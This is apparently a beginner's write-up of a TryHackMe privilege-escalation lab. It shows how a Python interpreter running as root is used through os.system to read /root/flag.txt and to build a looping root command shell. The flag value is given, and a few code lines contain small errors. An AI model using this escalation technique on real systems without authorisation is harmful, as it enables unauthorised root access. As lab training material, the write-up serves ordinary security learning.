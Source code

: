 # Linux Privesc Playground - Try Hack Me - https://tryhackme.com/room/privescplayground
## This is my first Write-up but a simple one to preform.


### 1. lets get in the machine and open python 

SSH Credentials - user:password

so there is a "trick" to gain an easy shell with the help of python
first we have to see if python is installed and has root premonition so we could exploit it
 
$ python
```
>>>
```

great! we got python installed, lets continue.

now we are in the python interactive shell, this is sort of a testing ground for coders.
but for us, its just a convenient way to get a shell.

we only need to init one library for OS commands
```python
>>> import os
```
now, lets see if we are root. (euid = 0:root)
```python
>>> geteuid()
```
> 0

Grate! python user has root privileges! lets use that ofc...
the syntax should look like this 

```python
os.system("whoami")
```

>root
0


note you can press the arrow-key-up button to toggle previous commands exactly like a regular shell

### 2. Get The Flag!
to get the flag we will do the following

```python
os.system("cat /root/flag.txt")
```
> THM{3asy_f14g_1m40}


 

___
# bonus:

do you want to make your life easyer? (that's what python ment for)
 

```python
def A(i):
    os.system(i)
```

press return key (enter)


now all we need to do is A("YOUR COMMAND GOES HERE")

```
A('whoami')
```
>root
0

# Even better:

```
while True:
    i = input('CMD: ')
    os.system(i)
press return key (enter)
```
> CMD:
```
CMD: whoami
```
>root
0


now we go a loop and created our-self an easy root shell!

# Hye! if you done the bonus why not get in to a python course?
you can do so much in python, i recommanding this tutorial by microsoft as it's easy and fun to watch (as mach as it can be...)
https://www.youtube.com/watch?v=eHxoh9Rrtdk